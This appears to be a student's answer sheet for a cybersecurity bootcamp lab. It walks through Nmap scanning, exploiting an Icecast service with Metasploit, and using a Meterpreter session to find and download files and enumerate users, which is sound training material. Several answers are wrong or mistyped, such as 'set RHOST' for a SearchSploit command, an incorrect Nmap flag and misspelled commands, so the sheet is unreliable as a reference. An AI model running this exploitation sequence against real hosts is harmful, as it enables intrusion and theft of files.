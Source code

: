You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
1.	Perform a service and version scan using Nmap to determine which services are up and running:
o	Run the Nmap command that performs a service and version scan against the target.
Answer: nmap -sv 192.168.0.8/24

<img src="Images/q1.png">


2.	From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
o	Run the SearchSploit commands to show available Icecast exploits.
Answer: set RHOST

<img src="Images/Q2.png">

3.	Now that we know which exploits are available to us, let's start Metasploit:
o	Run the command that starts Metasploit:
Answer: msfconsole
<img src="Images/Q3.png">

4.	Search for the Icecast module and load it for use.
o	Run the command to search for the Icecast module:
Answer: search Icecast

<img src="Images/Q4.png">


o	Run the command to use the Icecast module:
Note: Instead of copying the entire path to the module, you can use the number in front of it.
Answer: use 0

<img src="Images/Q5.png">


5.	Set the RHOST to the target machine.
o	Run the command that sets the RHOST:
Answer: set RHOST 192.168.0.20
o	
6.	Run the Icecast exploit.
o	Run the command that runs the Icecast exploit.
Answer: exploit

o	Run the command that performs a search for the secretfile.txt on the target.
Answer: search -f *secret*

<img src="Images/Q6.png">

<img src="Images/Q7.png">


7.	You should now have a Meterpreter session open.
o	Run the command to performs a search for the recipe.txt on the target:
Answer: secarch -f *recipe*


<img src="Images/Q8.png">


o	Bonus: Run the command that exfiltrates the recipe*.txt file:

Answer: cat Users/IEUser/Documents/Drinks.recipe.tx
o	Download Users/IEUsers/Documents/Drinks.recipe.txt

<img src="Images/Q9.png">

8.	You can also use Meterpreter's local exploit suggester to find possible exploits.
o	Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.
Bonus
A. Run a Meterpreter post script that enumerates all logged on users.
Answer: run post/windows/gather/enum_logged_on_users

<img src="Images/Q11.png">

B. Open a Meterpreter shell.
Answer: Shell
<img src="Images/Q10.png">

C. Run the command that displays the target's computer system information:
Answer: Systeminfo
<img src="Images/Q12.png">
 
© 2020 Trilogy Education Services, a 2U Inc Brand. All Rights Reserved.


